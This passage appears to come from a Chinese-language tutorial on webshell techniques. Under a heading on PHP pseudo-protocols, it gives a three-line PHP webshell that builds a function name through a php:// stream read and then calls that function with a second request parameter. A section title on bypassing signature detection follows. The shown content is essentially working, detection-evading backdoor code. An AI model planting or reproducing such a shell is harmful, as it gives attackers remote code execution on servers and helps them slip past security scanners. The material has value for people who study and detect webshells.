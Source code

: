 <img src=".\图片\Snipaste_2023-04-26_17-49-13.png" alt="Snipaste_2023-04-26_17-49-13" style="zoom:80%;" />

### 4.php伪协议

```php
<?php
$q=$_GET[1];
file_get_contents("php".$q)($_GET[2]);
```

<img src=".\图片\Snipaste_2023-04-26_18-10-07.png" alt="Snipaste_2023-04-26_18-10-07" style="zoom:80%;" />



## 数据特征绕过
